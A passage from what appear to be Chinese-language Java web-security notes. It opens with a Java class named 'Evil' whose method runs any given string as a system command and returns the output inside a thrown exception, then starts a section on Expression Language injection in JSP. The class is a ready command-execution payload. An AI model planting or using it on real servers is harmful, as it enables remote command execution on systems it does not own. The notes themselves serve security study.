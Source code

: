 ```java
}
```







```java
public class Evil {
    public static void Exec(String arg) throws Exception {
        Process process = Runtime.getRuntime().exec(arg);
        InputStreamReader inputStreamReader = new InputStreamReader(process.getInputStream());
        BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
        StringBuffer stringBuffer = new StringBuffer();
        String line;
        while((line = bufferedReader.readLine()) != null){
            stringBuffer.append(line).append('\n');
        }
        String result = stringBuffer.toString();
        throw new Exception(result);
    }
}
```



## §2.4 表达式注入

EL表达式（Expression Language）是一种可以内置在JSP中的语言，其功能十分强大：

- 任意访问JSP的四大作用域（`page`、`request`、`session`、`application`）
  - `page`：在单个页面内，由`Javax.servlet.jsp.PageContext`抽象类实现
  - `request`：在单个请求中，由`Javax.servlet.httpServletRequest`类实现
  - `session`：在单个会话中，由`Javax.servlet.http.HttpSession`类实现
  - `application`：在整个服务器中，全部用户共享，由`Javax.servlet.ServletContext`类实现
- 执行基本逻辑原酸
- 任意调用EL表达式内置的隐式对象
  - `pageScope`：`page`作用域
  - `requestScope`：`request`作用域
  - `sessionScope`：`session`作用域
  - `applicationScope`：`application`作用域
  - `param`：`Request`对象的参数，是字符串
  - `paramValues`：`Request`对象的参数，是字符串数组
  - `header`：`HTTP`信息头，字符串
  - `headerValues`：`HTTP`信息头，字符串集合
  - `initParam`：上下文初始化参数
  - `cookie`：`Cookie`值
  - `pageContext`：当前页面的`pageContext`
- 任意调用Java类

EL表达式获取`<object>`对象中`<name>`字段的方式有以下两种，其中`<object>`缺省为`pageScope`，若未找到`name`字段，则从`requestScope`、`sessionScope`、`applicationScope`依次向上层作用域隐式对象进行查找：

- `${[<object>.]<name>}`，这种方法允许缺省`<object>`
- `${<object>[<name>]}`，如果`<name>`包含特殊字符，需要在两侧加上双引号，即`${<object>["<name>"]}`。这种方法允许访问包含特殊字符的变量名。
